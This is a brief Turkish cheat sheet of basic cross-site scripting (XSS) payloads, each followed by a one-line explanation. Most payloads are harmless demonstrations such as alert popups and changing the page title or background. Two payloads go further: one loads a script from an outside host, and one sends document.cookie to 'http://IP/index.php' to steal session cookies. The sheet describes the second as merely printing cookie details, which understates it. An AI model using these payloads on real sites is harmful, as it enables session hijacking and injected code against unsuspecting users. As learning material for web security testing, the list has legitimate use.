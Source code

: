 # Temel XSS kodları ve açıklamaları


    <script>alert(1)</script>
bir pop-up çıkartır ve bildirim olarak 1 yazar.


    <script>alert(window.origin)</script>
sayfanın URL’sini ekrana yazdırır.


    <script>alert(document.cookie)</script>,
cookieleri yazdırır.


    <script>document.body.style.background = "#141d2b"</script>
arkaplan rengini değiştirir.


    <script>document.title = 'Kerem Bollu'</script>
Sitenin başlığını değiştirir.


    <script src="http://IP/script.js"></script>
Dışardan dosya yükler.


    <script>new Image().src='http://IP/index.php?c='+document.cookie</script>
Çerez ayrıntılarını yazar.


    <img src="" onerror=alert(window.origin)>
Sayfada resim yok ise otomotik olarak onerror verir ve alert'i çalıştırır.

